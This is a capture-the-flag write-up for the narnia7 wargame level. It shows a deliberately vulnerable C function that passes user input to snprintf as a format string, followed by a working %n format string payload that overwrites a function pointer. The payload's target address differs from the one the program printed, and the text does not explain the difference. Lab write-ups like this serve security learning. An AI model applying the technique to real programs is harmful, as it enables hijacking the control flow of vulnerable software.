 # narnia7
The objective of this challenge is to change the function pointer ptrf() to
point to hackedfunction() instead of goodfunction().

This is accomplished with a format string exploit.

## Notes

Source code for the vulnerable function, vuln():
```*.c
int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);

        return ptrf();
}
```

A buffer of size 128 is declared and zeroed out with ```memset```. The
exploitable ```snprinf``` function is called, so I know this is a format string
exploit.

The function prints:
```
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd5c8)
```

## Solution
The vulnerability is in the snprintf() function. We can use a format string
attack to exploit it.

The address of goodfunction() and hackedfunction() are printed. The value of
0x8048724 is 134514468.


Enter the following exploit:

```bash
/narnia/narnia7 $(python -c "print '\x38\xd6\xff\xff' + '%134514468x%n'")
```
